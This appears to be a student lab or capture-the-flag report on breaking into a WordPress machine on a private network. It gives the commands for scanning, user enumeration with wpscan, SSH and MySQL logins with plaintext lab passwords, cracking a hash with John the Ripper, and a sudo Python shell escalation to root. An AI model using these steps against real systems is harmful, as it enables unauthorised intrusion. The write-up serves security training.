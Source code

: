 ﻿Joaquin Serrano

# Red Team: Summary of Operations

### Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
Find the version of the service running on port 192.168.1.110:
$ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

This scan identifies the services below as potential points of entry:

- Target 1 -Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:

- Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)

### Exploit Used
   * dirb returns the enumerated directories found within the target URL
![](https://github.com/y2keno/final_project/blob/2b18992a598038337b3eea06eb8e762ca11ae9a6/Final_Red_Team/images/image1.png)
![](https://github.com/y2keno/final_project/blob/9daf1cc299e38973b8392e18e94f21011da9d766/Final_Red_Team/images/image10.png)

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
![](https://github.com/y2keno/final_project/blob/dbc3bb6c5a0d8ced95df9e13162e2d82bcd9a675/Final_Red_Team/images/image22.png)

- Target 1
- flag1.txt: b9bbcb33e11b80be759c4e844


### Exploit Used
- WPScan to enumerate users of the Target 1 WordPress site
   - SSH using Michael’s credentials, Flag 1 was found
   - Flag 1 was found in /var/www in the HTML folder


- Kali Linux Command: 
$ wpscan -u http://192.168.1.110/wordpress -eu 
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image2.png)
![](https://github.com/y2keno/final_project/blob/eeff044c9c10ecd69f6574bca247e958df05c134/Final_Red_Team/images/image16.png)
![](https://github.com/y2keno/final_project/blob/638eec6e538de727c61a25a0b6898746f70bac65/Final_Red_Team/images/image17.png)

- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


### Exploit used:
   * Continuation of exploit from Target 1. 
   * SSH using Michael’s credentials, Flag 2 was found. 
   * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 

- Kali Linux Commands: 
   * $ ssh michael@192.168.1.110
   * pwd
   * cd var/www
   * ls -l
   * cat flag2.txt

![](https://github.com/y2keno/final_project/blob/3ffd601fef819d7e5dce7e0f70b736d1a4ba00e1/Final_Red_Team/images/image12.png)
  
- Flag 3: afc01ab56b50591e7dccf93122770cd2

### Exploit used: 
   * Continuation of Exploit from Target 1. 

- Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image15.png)  

- Kali Linux Command: 
   - $ mysql -u root -p
   - Password: R@v3nSecurity  Host: 127.0.0.1
   - Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
   - show databases;
   - use wordpress; 
   - show tables;
   - Select * from wp_users; 

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image4.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image14.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image21.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image12.png)

### Exploit used:
   - Unsalted password hash and privilege escalation with Python
   - Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   - Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   - Copied the username and password hash for Steven. Saved the file and named it  hash.txt
   ![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image13.png)

- Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)

### Exploit Used: 
- Utilized John the Ripper to crack the password hash from the hash.txt file.
- Kali Linux command: 
   * $ john hash
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image19.png)
  
* Steven Password cracked: pink84
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image6.png)
  
* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image9.png)
  
* Use python to gain root privileges
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image20.png)
  
* cd root
* ls
* cat flag4.txt

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image18.png)

### Captured Flag4: 715dea6c055b9fe33354932f2941ce